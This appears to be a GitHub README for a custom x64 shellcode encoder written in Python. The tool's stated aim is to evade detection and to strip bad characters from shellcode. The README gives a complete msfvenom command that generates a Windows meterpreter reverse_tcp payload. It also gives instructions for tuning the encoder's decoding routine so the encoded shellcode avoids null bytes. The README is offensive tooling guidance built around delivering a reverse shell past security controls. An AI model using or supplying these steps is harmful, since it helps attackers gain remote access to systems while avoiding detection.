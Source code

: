 # x64-shellcode-encoder
Custom 64 bit shellcode encoder that evades detection and removes some common badchars (\x00\x0a\x0d\x20)

## Usage
Using a generator such as msfvenom, run the following command:
```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -o sc.bin```

Then, run the python script with the file containing shellcode bytes as an argument:
```python3 encoder-x64.py sc.bin```

## Extra notes
The script will automatically look for the following common bad characters after encoding the shellcode (null bytes, new lines, carriage returns, spaces). This can be disabled by commenting out code on line 130 and uncommenting lines 128 + 129. This will make the encoded shellcode much shorter, but it will likely contain a few bad characters. The script will output what bad characters the encoded shell code ends up containing as well as their positions in the shellcode.

It is also worth noting that short shellcode (less than 255 bytes) will likely contain a null byte in the encoded shellcode in part of the decoding routine. This null byte comes from line 80, and if short shellcode must be used that does not contain null bytes, edit the script to do something along the lines of:
```mov cl, shellcode_length```
where the shellcode_length would be one byte long. This shortens the decoding routine by two bytes, so either add in a couple of null bytes or edit the offset on line 57 to account for it.
